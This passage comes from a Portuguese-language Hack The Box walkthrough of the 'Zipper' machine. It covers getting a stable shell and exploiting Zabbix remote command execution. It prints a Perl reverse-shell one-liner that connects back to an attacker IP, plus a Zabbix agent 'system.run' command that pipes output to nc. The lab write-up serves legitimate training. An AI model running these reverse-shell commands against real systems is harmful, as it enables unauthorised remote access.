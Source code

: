 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp13.png)

Só que a conexão cai um segundo depois que é estabelecido o shell

## Pegando um shell estável

Então temos que fazer um jeito do shell ser estável e não cair. O que vou fazer? Colocar em um arquivo um shell, e jogar ele para o nc na porta 443, quando o servidor cehgar na minha porta 443, vai executar esse shell e me dar outro shell na porta 444

shell
`perl -e 'use Socket;$i="10.10.16.126";$p=444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp14.png)

Ai está, um shell estável

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_burp15.png)

# Explorando Zabbix - 2º Shell como Zabbix (exploitdb)

Bom, agora vamos fazer de outro modo, atráves do exploit do searchsploit

Logo depois que clicamos em `Sign as Guest` na parte inferior verificamos a versão do Zabbix

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit.png)

Procuramos por exploits para essa versão

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit2.png)

Encontramos esse que nos chamou atenção por ser Remote Command Execution, exatamente o que queremos. Copiamos ele para nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit3.png)

Alteramos oq precisa ser alterado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit4.png)

Executamos, e conseguimos um "shell" na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_exploit6.png)

Estamos claramente em um container, (dica do 0xdf), se realizarmos outro nmap com full scan, vamos verificar a porta 10050 aberta no servidor, contudo não conseguimos interagir com ela na Kali, mas por esse container nós conseguimos

`echo "system.run[hostname | nc 10.10.16.126 443]" | nc 10.10.10.108 10050`
